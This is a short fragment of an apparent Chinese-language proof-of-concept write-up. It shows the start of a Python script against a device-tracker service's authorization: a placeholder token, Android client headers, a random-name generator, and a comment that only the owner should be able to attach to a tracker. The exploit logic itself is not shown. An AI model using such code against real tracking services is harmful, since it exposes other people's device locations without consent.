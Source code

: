****![](img/0b2cf531f0394ef4f7a5a679f626978a.png)****

******概念验证******

****请注意坐标被更改了——也没有授权。****

```
**import requests, json, random, time

userToken = "your token..."

azaz = list(set("zyxwvutsrqponmlkjihgfedcbabcdefghijklmnopqrstuvwxyz"))
current_num = 22900

headers_push = {"User-Agent" : "Dalvik/2.1.0 (Linux; U; Android 6.0; Nexus 5X Build/MDA89E)",
            "Accept-Encoding" : "gzip, deflate",
            "Content-Type":"application/json"}

headers_del = {"Content-Type":"application/x-www-form-urlencoded",
            "User-Agent" : "Dalvik/2.1.0 (Linux; U; Android 6.0; Nexus 5X Build/MDA89E)",
            "Accept-Encoding" : "gzip, deflate",
            "Content-Length":"0"}

headers_get = {"User-Agent" : "Dalvik/2.1.0 (Linux; U; Android 6.0; Nexus 5X Build/MDA89E)",
            "Accept-Encoding" : "gzip, deflate",
            "Content-Type":"application/json"}

def pickAName():
    n = str()
    for i in range(6):
        n += azaz[random.randint(0,len(azaz)-1)]
    return n

# Only the owner of the device should be able to attach to the device tracker
```